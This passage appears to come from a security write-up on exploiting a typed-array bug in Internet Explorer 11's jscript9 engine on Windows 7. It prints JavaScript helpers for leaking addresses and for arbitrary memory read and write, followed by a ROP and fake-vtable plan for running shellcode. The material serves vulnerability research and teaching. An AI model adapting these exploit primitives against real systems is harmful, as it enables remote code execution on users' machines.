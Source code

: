 
We assign this particular `Uint8Array` object to a separate variable (`mv`) that we will be using as a memory view for reading and writing arbitrary memory. Note that it is trivial to get the addresses of the buffer and vftable (for `Uint8Array`) as well:

```javascript
function ub(sb) {
  return (sb < 0) ? sb + 0x100 : sb;
}

var bufaddr = ub(ia[lengthIdx + 4]) | ub(ia[lengthIdx + 4 + 1]) << 8 | ub(ia[lengthIdx + 4 + 2]) << 16 | ub(ia[lengthIdx + 4 + 3]) << 24;
var vtable = ub(ia[lengthIdx - 0x1c]) | ub(ia[lengthIdx - 0x1b]) << 8 | ub(ia[lengthIdx - 0x1a]) << 16 | ub(ia[lengthIdx - 0x19]) << 24;
```

As usual, we write simple helper functions:

```javascript
function setAddress(addr) {
  ia[lengthIdx + 4] = addr & 0xFF;
  ia[lengthIdx + 4 + 1] = (addr >> 8) & 0xFF;
  ia[lengthIdx + 4 + 2] = (addr >> 16) & 0xFF;
  ia[lengthIdx + 4 + 3] = (addr >> 24) & 0xFF;
}

function readN(addr, n) {
  if (n != 4 && n != 8)
    return 0;
  setAddress(addr);
  var ret = 0;
  for (var i = 0; i < n; i++)
    ret |= (mv[i] << (i * 8))
  return ret;
}

function writeN(addr, val, n) {
  if (n != 2 && n != 4 && n != 8)
    return;
  setAddress(addr);
  for (var i = 0; i < n; i++)
    mv[i] = (val >> (i * 8)) & 0xFF
}
```

Okay. Now what?

There are many avenues from here and it depends on the target environment, so we will describe one possible way to get arbitrary code execution on our target (Win7 IE11). Our attack plan is the following:

  1. Calculate the base address of `jscript9` from vftable address we leaked.
  2. Construct a fake virtual function table in our heap buffer.
    * We replace the pointer to `Subarray` with the address to a stack-pivot gadget
    * `mov esp, ebx; pop ebx; ret`
    * Note: ebx is the first argument we provide to `subarray`
  3. Read `VirtualProtect` entry in import table.
  4. Construct a ROP payload that calls `VirtualProtect` on our shellcode buffer.
  5. Overwrite the vftable address of `mv` (`Uint8Array` object) with our fake one.
  6. Call _mv.subarray_ for profit!


[ms16-063]: https://technet.microsoft.com/en-us/library/security/ms16-063.aspx
[vbscript-post]: https://github.com/theori-io/cve-2016-0189
[typed-array]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Typed_arrays
[chakra]: https://github.com/Microsoft/ChakraCore/blob/master/lib/Runtime/Library/TypedArray.h#L238
[initial-commit]: https://github.com/Microsoft/ChakraCore/blob/5d8406741f8c60e7bf0a06e4fb71a5cf7a6458dc/lib/Runtime/Library/TypedArray.h#L226
[modern-ie]: https://developer.microsoft.com/en-us/microsoft-edge/
[lfh]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa366750%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396
[theori-github]: https://github.com/theori-io/jscript9-typedarray
[vmmap]: https://technet.microsoft.com/en-us/sysinternals/vmmap.aspx?f=255&MSPPError=-2147217396